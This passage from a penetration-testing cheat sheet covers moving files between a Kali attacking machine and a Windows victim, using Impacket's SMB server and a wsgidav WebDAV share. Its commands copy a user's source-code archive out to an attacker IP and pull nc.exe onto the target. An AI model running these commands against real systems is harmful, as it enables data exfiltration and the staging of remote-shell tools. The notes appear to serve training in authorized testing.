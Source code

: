 ### Both ways

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder` or `sudo impacket-smbserver share -smb2support /tmp/smbshare`
- We can specify `-username user -password pass` if we need set up an authentication

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OF-ATTACKING-MACHINE\SHARENAME` 
- If we want to get a file to our target from the attacking machine we just need to `copy \\192.168.220.133\share\nc.exe`
- Sometimes on windows we will be asked to use a service that requires authentication so we can set this up with `net use \\<network-location>\<some-share> password /USER:username` after this we will be able to use the previous copy command

### run SMB over HTTP with WebDav

> If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

To set up our WebDav server, we need to install two Python modules, wsgidav and cheroot  

- `sudo pip install wsgidav cheroot`
- `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous` Using the WebDav Python module

- Connect to the Webdav share

- `dir \\192.168.49.128\DavWWWRoot` Now we can attempt to connect to the share using the DavWWWRoot directory

> Note: DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
> You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

- Upload file using smb

```dos
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

